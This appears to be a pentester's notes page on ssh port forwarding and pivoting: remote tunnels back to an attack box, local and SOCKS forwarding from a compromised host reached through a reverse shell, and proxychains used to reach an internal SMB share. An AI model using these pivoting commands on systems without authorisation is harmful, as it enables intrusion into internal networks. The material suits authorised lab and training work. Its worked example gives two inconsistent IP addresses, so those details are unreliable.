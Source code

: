 ```yaml
---
tags:
  - tool
  - ssh
  - routing
---
```

# ssh

Secure Shell

## Capabilities

### Remote Fowarding

```powershell
# Connect to our attack box, listen on port 2345, and forward all traffic to 10.0.0.10:5432
ssh -N -R 127.0.0.1:2345:10.0.0.10:5432 kali@$OUR_IP

# Connect to our attack box, and act as a SOCKS proxy operating on port 1080
ssh -N -R 1080 kali@$OUR_IP
```

### Local Fowarding

```powershell
# Connect to 10.0.0.10 and listen on 4455, forwarding to 172.16.20.1:445
ssh -N -L 0.0.0.0:4455:172.16.20.1:445 $USER@$IP

# Connect to 10.0.0.10 and listen on 9999, forwarding all traffic (simulating a SOCKS proxy)
ssh -N -D 0.0.0.0:9999 $USER@$IP
```

**Note:**

- `-N` means no shell
- `-L` think local port forwarding
- `-D` think dynamic port forwarding (SOCKS proxy)
- `-R` think remote port forwarding

Lets break down the last example with substituted values, and say our IP is `192.168.1.10`:

```powershell
ssh -N -D 0.0.0.0:9999 sql_admin@10.0.0.10
```

We are running the `ssh` command on a reverse shell we have already established to `10.0.0.10`. Upon executing the command, `10.0.0.10` essentially becomes a SOCKS proxy for us to send traffic to that will then be forwarded to `10.0.0.10`, and `10.0.0.10` will forward the traffic to its final destination.

We can then use [proxychains](../../20%20Routing/proxychains.md) to interact with `10.0.0.10` by adding the following to our `/etc/proxychains4.conf`

```powershell
# ... At the very bottom of the file, we set the ProxyList to only point to port 9999.
[ProxyList]
socks5 10.0.0.10 9999
```

Now in the following command

```powershell
proxychains -q smbclient -L //172.16.20.1/ -U $USER --password=$PASSWD
```

The request will first be taken by `proxychains` and fowarded to `192.168.50.63:9999` as specified in our `/etc/proxychains4.conf`. The traffic is then tunneled to `10.0.0.10:9999`, where `10.0.0.10` then fowards it to its final destination of `172.16.20.1:445`.
